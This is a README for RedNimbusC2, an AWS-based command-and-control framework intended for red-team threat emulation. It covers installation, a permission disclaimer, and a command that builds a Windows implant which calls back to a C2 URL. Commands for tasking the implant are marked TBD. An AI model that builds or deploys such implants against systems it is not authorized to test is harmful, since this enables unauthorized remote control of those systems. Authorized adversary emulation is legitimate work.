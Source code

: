 # :cloud: RedNimbusC2

Red Nimbus C2 is a [command and control](https://attack.mitre.org/tactics/TA0011/) framework built on AWS services including [Lambda](https://aws.amazon.com/lambda/), [S3](https://aws.amazon.com/s3/), and [CloudWatch](https://aws.amazon.com/cloudwatch/).

The purpose of this tool is to enable legitimate cybersecurity practitioners to emulate advanced cyber threats. In that way, organizations can identify weaknesses and apply corrective and/or compensating controls to improve their security posture.

![alt text](images/nimbusC2_architecture.png)

## :warning: Disclaimer

You are solely responsible for your use of this tool.

Before leveraging this tool, ensure you have explicit written permission to assess the target network(s) from the network owner(s).

`Misuse of this tool is condemned by the author, and will almost certaintly result in criminal and/or legal action.`

## :construction: Pardon Our Dust

This repository is under active development.

Content is not expected to be stable or even usable at this time.

`Do not use this tool until this notice is removed.`

## :floppy_disk: Prerequisites

You are responsible for building and deploying this capability.

:moneybag: :fire: `[!] Be advised that you may be charged for your use of AWS resources.`

### 1. Install Build Dependencies

You must install the following resources in order to build and operate Red Nimbus C2:

1. [Node.js](https://nodejs.org/en/)
2. [Python](https://www.python.org)
3. [Go](https://go.dev)
4. [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html)
5. [AWS CDK](https://aws.amazon.com/getting-started/guides/setup-cdk/)
6. [Make Build System](https://www.gnu.org/software/make/)
7. [Git revision control system](https://git-scm.com)

### 2. Create AWS Account

Red Nimbus C2 makes exclusive use of AWS cloud services.

For this reason, you must have your own AWS account.

Instructions on creating an AWS account are provided [here](https://aws.amazon.com/premiumsupport/knowledge-center/create-and-activate-aws-account/).

## :computer: Installation

1. Clone the repository

```bash
git clone https://github.com/bluesentinelsec/RedNimbusC2.git
```

2. Deploy Red Nimbus C2 to AWS using CDK

```bash
# enter the RedNimbusC2 directory
cd RedNimbusC2

# deploy RedNimbusC2 infrastructure
make cdk-deploy
```

3. Validate your installation

```bash
make test
```

## Operator Instructions

Red Nimbus C2 uses the following workflow:

1. Generate C2 agent
2. Deploy agent to target
3. Issue commands using the Nimbus C2 operator client
4. Cleanup

### 1. Generate C2 Agent

The Red Nimbus C2 agent is executed on target systems.

On execution, the agent calls back to the Red Nimbus C2 infrastructure and establishes a C2 session.

```bash
./nimbusc2 create_implant \
            --format exe \
            --arch amd64 \
            --platform windows \
            --c2url https://aws-api-gateway-url \
            --proxy "http://userName:password123@127.0.0.1:1234" \
            --private-key "change_me_123!$" \
            --callback-schedule "cron_schedule" \
            --kill-date "date" \
            --implant-group myGroupName \
            --allow-target myIntendedTarget \
            --allow-user myTargetUser \
            --out-file nimbus_agent.exe \
            --verbose 
```

### 2. Deploy Agent to Target System(s)

You are responsible for deploying the Nimbus C2 agent to your intended target.

As a reminder, always stay in scope, always follow your rules of engagement, and always get explicit written permission to execute prior to conducting your engagement.

### Issue Commands

```
TBD
```

### Cleanup

You can task all implants to terminate and delete by issuing this command:

```
TBD
```

You can destroy all Red Nimbus C2 infrastructure using this command:

```bash
make cdk-destroy
```